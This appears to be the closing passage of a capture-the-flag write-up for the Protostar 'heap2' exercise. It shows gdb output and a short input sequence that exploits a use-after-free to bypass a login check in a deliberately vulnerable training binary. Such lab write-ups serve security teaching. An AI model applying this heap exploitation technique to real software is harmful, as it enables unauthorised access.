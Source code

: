 ```
(gdb) print auth->auth
$11 = 1111638594
(gdb) print *auth->auth
Cannot access memory at address 0x42424242
```
 - according to the `*auth->auth` result, there is a value `0x42424242` that we controlled via `service`
 - now `auth->auth` is not 0 but we need to hit checkpoint
 - let's call `login` to check this

:fire: :fire: final exploit :fire: :fire:

```
$ ./heap2
[ auth = (nil), service = (nil) ]
auth AAAA
[ auth = 0x804c008, service = (nil) ]
auth BBBB
[ auth = 0x804c018, service = (nil) ]
reset
[ auth = 0x804c018, service = (nil) ]
service CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
[ auth = 0x804c018, service = 0x804c028 ]
login
you have logged in already!
```

Have fun! :v: :v: :v:

---
**:muscle: References :muscle:**  

all resources listed here :point_right: [LOL-Fav](http://location-href.com/lol-fav/)  :page_facing_up:

:snowman: Contributed and maintained by [Luna-](https://twitter.com/art0flunam00n)  
:snowflake: Powered by [Legion of LOL](http://location-href.com)

---
